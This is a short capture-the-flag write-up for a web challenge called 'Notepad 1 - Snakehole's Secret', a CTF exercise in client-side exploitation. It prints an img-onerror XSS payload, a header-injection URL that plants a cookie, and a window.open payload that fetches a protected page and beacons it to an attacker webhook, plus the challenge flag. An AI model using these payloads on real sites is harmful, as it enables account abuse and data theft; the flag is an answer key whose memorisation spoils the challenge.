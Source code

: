 # Notepad 1 - Snakehole's Secret

### Challenge Description

Janet Snakehole, the rich aristocratic widow with a terrible secret, is being investigated by the FBI's number 1, Burt Tyrannosaurus Macklin. Burt found a website that she visits often. See if you can find anything.  


### Challenge File
[Source](./Handout/snakeholessecret.zip)

### MD5 Hash: 
`81855a0341925c881e4c07092d832f3e`


### Short Writeup

* Payload in user's note
    * `<img src/onerror="eval(window.name)">`

* Send a page to admin that does the following
    * Set-Cookie with your id.
        * `http://chall.notepad1.gq/find?startsWith=d&debug=y&Set-Cookie=id=f616c83f2f0f188265c7004d81d45723%3B%20path=/get`
    * Open the page again with the following window.name . Now that your XSS payload gets loaded, remove your cookie and fetch flag.
        * `window.open("http://chall.notepad1.gq",name="document.cookie='id=f616c83f2f0f188265c7004d81d45723; expires=Thu, 01 Jan 1970 00:00:00 UTC;path=/get;';document.cookie=x;fetch('/get').then(response=>response.text()).then(data=>navigator.sendBeacon('${webhook}',data));")`

### Author
[Az3z3l](https://twitter.com/Az3z3l)

### Flag
`inctf{youll_never_take_me_alive_ialmvwoawpwe}`
